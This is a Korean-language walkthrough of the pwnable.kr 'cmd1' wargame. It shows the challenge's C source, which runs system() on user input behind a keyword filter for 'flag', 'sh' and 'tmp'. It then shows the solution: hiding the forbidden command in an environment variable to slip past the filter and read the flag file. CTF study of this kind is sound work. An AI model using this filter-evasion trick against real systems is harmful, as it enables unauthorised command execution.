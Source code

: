 # [Toddler's Bottle] cmd1
cmd1에서 제공하는 글을 확인해보자.
```
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```
putty로 접속해주자.

```
cmd1@ubuntu:~$ cat cmd1.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

> * strstr(대상문자열, 검색할문자열);  
    - char *strstr(char * const _String, char const * const _SubString);  
    - 문자열을 찾았으면 문자열로 시작하는 문자열의 포인터를 반환, 문자열이 없으면 NULL을 반환

이번문제는 환경변수를 이용하는 문제인것 같다.  
게다가 strstr함수를 이용하여 인자에 `flag` `sh` `tmp`가 들어왔는지 검사한다.

h라는 환경변수를 만들어주자
```
cmd1@ubuntu:~$ export h="/bin/cat /home/cmd1/flag"
.
.
cmd1@ubuntu:~$ export
.
.
declare -x h="/bin/cat /home/cmd1/flag"
```
환경변수에 문자열이 잘 전달되었음을 확인했으므로 이제 이것을 전달해주면 해결 할 수 있다.
``
cmd1@ubuntu:~$ ./cmd1 '$h'
mommy now I get what PATH environment is for :)
``
